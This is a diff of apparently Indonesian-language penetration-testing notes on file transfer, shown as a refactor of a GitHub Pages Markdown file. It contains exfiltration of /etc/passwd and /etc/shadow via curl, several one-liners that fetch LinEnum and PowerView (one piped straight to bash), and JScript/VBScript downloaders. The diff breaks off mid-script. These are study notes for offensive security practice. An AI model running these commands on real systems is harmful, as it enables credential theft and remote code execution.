

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, the part around one of its changes. Shown at 91% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Refactor file transfer methods in notes
Remove commented-out code blocks and update transfer methods with clearer instructions.

````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -239,22 +241,11 @@ curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow'
 
 ### Metode 7: alternatif metode transfer file web
-
-```
-## membuat server web
-# dengan python3
-python3 -m http.server
-
-# dg python2.7
-python2.7 -m SimpleHTTPServer
-
-# dg PHP
-php -S 0.0.0.0:8000
-
-# dg ruby
-ruby -run -ehttpd . -p8000
-
-# download file dg curl/wget
-```
+#### Membuat server web
+- Dengan python3: `python3 -m http.server`
+- Dengan python2.7: `python2.7 -m SimpleHTTPServer`
+- Dengan PHP: `php -S 0.0.0.0:8000`
+- Dengan ruby: `ruby -run -ehttpd . -p8000`
+- Download file dg curl/wget
 
 ### Metode 8: SCP upload
 
@@ -264,8 +255,46 @@ scp /path-file-yg-diupload username@10.129.86.90:/home/batagor/
 
 <h2 align="center">Transfer file dengan kode</h2>
 
-```
-# menggunakan python
-python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
-python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
+- Menggunakan python
+  ```
+  python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
+  python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
+  ```
+- Menggunakan PHP
+  ```
+  php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
+  php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
+  php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
+  ```
+- Menggunakan ruby
+  ```
+  ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
+  ```
+- Menggunakan perl
+  ```
+  perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
+  ```
+- Skrip jawa
+  - Buat file wget.js, isinya:
+    ```
+    var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
+    WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
+    WinHttpReq.Send();
+    BinStream = new ActiveXObject("ADODB.Stream");
+    BinStream.Type = 1;
+    BinStream.Open();
+    BinStream.Write(WinHttpReq.ResponseBody);
+    BinStream.SaveToFile(WScript.Arguments(1));
+    ```
+  - Donlot dengan skrip tadi dari windows
+    ```
+    cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
+    ```
+- Menggunakan vbscript
+  - Buat file wget.vbs, isinya:
+    ```
+    dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
+    dim bStrm: Set bStrm = createobject("Adodb.Stream")
+    xHttp.Open "GET", WScript.Arguments.Item(0), False
+    xHttp.Send
 
````
Also changed, not shown: other parts of notes/file-transfer.md (+118 -141 lines).
